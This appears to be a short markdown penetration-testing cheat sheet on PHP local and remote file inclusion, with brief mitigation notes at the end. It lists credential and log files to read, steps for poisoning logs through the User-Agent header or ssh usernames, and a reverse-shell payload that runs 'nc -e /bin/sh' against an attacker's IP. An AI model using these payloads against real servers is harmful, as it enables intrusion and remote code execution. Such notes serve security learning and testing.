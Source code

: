 ### Local File Inclusion
* Some sites make it possible to navigate on the servers file system. Check if you can access local files.
  * /etc/passwd
  * ...
* Try to inject code into readable files like:
  * Environment variables - /proc/self/environ
  * /var/log/auth.log
  * /var/log/apache2/access.log
  * ...
* Use Burp to change header info with PHP code thats going to be executed when reading the local file
  * Change User-Agent (which is an environment variable) to:
    ```php 
    <?php passthru("nc -e /bin/sh <IP> <port>"); ?>
    ```
  * Forward request
  * Access local file to execute the php code
* To use /var/log/auth.log just try to ssh to that site
  * **ssh _"phpCode"_@_site_**
* When passing code, its good practice to encode it with a base64 function and call a function to decode afterwards
  * Use Burp Decoder to encode it
  * Call php decode function: **base64_decode(_"encodedCode"_)**
  * Access local file to execute the php code

### Remote File Inclusion
* Same thing as the local file inclusion but youre going to host the php code in a server
* PHP file must be in .txt format so it wont be executed in your server
* Add **?** after the file path (eg. http://10.10.10.10?page=http://localhost/reverse.txt?)

### Mitigation
* [Local](https://github.com/KevinSantos/Hacking/blob/master/fileInclusionMitigation.php)
* Remote
  * Set **allow_url_fopen** and **allow_url_include** to **Off** in php.ini
